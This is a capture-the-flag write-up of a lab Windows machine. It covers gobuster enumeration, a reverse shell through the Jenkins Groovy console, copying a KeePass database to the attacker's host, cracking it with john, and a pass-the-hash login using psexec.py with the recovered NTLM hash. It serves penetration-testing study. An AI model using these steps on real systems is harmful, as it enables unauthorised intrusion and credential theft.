# Enumeration:
 </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
 </br>
When trying to submit anything, we get this: </br>
 </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
 </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
 </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
 </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
 </br> </br>
# Privilege Escalation: 
</br>

I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories (The user I got
access to). I found this file in the Documents directory: </br>
 </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
 </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
 </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
 </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
